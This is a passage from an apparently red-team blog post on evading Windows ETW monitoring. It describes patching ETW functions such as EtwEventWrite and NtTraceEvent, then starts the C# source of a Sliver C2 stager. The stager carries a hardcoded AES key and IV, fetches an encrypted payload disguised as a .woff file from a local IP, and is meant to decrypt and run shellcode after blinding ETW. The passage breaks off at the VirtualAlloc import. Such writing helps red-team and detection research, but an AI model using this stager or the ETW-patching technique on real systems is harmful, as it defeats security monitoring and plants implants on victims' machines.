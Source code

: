 <img src="{{ site.url }}{{ site.baseurl }}/images/2024-06-30_13_22_17.png" alt="">

As it can be seen in the previous screenshot, this approach didn't work either. I assume that the buffering mechanism of ETW allows consistent data availability, and Process Hacker, as an ETW consumer, can handle dynamic changes in provider registration seamlessly. Therefore, even with the stress test of registering and unregistering the CLR provider up to 2048 times to overflow the indexes, Process Hacker remains unaffected in its ability to load the CLR and access detailed .NET assembly metadata (*if anyone can correct me, please do, I would like to learn more about Windows Internals :\)*).

## Patching

Our final approach for this specific post will be patching ETW itself. Before proceeding, we will discuss what patching ETW Providers entails and how we can achieve it.

### What does patching mean?

Function patching involves modifying the behavior of a specific function in a program. This can be done to make the function fail, supply it with false data, or force it to return immediately. The goal is to alter how the function operates, which can be useful for debugging, testing, or bypassing certain behaviors.

To achieve this in a local process:

1. **Load the Executable:** First, you need to load the executable file (EXE or DLL) that contains the function you want to patch.
2. **Obtain a Function Pointer:** Next, you need to get a pointer to the specific function within the loaded executable. This pointer acts like an address where the function's code is stored in memory.
3. **Change Memory Protection:** Once you have the function pointer, you must change the memory protection settings of the region where the function resides. This step allows you to modify the function's code.
4. **Modify the Function:** Finally, you can alter the function's code to change its behavior. This could involve making it fail, providing it with fake data, or making it return immediately.
 
### Patch ETW

The same method can be applied to ETW-specific functions like `EtwEventWrite`, `EtwEventWriteFull` or `NtTraceEvent`.


In this instance, I combined the encrypted stager with a process that patches ETW before downloading, decrypting, and executing the shellcode.

```
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.Diagnostics;
using System.Xml.Linq;

namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t";
        private static string AESIV = "8y/B?E(G+KbPeShV";
        private static string url = "http://192.168.243.139:8000/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
```
